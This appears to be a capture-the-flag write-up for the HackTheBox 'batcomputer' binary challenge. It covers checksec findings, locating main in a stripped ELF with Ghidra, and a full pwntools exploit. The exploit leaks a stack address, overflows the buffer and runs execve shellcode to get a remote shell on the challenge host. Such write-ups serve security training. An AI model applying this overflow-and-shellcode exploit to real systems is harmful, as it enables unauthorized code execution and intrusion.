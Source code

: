 `File` command on the binary shows that it is stripped, meaning there are no debug symbols present. A stripped binary makes it more difficult to reverse engineer and the main function will be harder to find.

```assembly
# file batcomputer | tr "," "\n" 
batcomputer: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=497abb33ba7b0370d501f173facc947759aa4e22
 for GNU/Linux 3.2.0
 stripped
```

```assembly
# checksec batcomputer           
[*] '/root/Downloads/hackthebox/challenge/batcomputer/batcomputer'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Because the binary is stripped we cant simply go to the main function. A simple work around is to look at the strings to see if we have encountered them before. In Ghidra, the strings window can be displayed by going to Window > Defined Strings. The screenshot above shows the string “Welcome to your Bat Computer.” selected. Following this string we land on what looks like our main function, FUN_001011ec (this may be different on your computer)
![image](https://user-images.githubusercontent.com/63084488/140466459-32617dda-1208-423c-aa91-4c77843b1d31.png)

exploit
```python
#!/usr/bin/python3

from pwn import *

def main():
    context.log_level='DEBUG'
    context.update(arch='amd64', os='linux')
    p = remote('docker.hackthebox.eu',31132)
    log.info("lets solve")

    # leak address of my buffer
    p.recvuntil('>')
    p.sendline('1')

    leak_address = p.recvline().split()[-1]
    leak_address = int(leak_address,16)
    log.success(f'leak_address: {hex(leak_address)}')

    # send evil payload
    # payload + eip + shellcode

    padding = b'A' * 84

    shellcode  = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91"
    shellcode += b"\xd0\x8c\x97\xff\x48\xf7\xdb\x53"
    shellcode += b"\x54\x5f\x99\x52\x57\x54\x5e\xb0"
    shellcode += b"\x3b\x0f\x05"

    buffer = flat (
            padding,
            p64(leak_address + 84+8),
            shellcode
            )

    p.recvuntil('>')
    p.send('2')
    p.recv()
    p.sendline('b4tp@$$w0rd!')
    p.recvline()
    p.send(buffer)

    # trigger buffer overflow
    p.recvline()
    p.sendline('3')

    p.interactive()

if __name__ == '__main__':
    main()
```
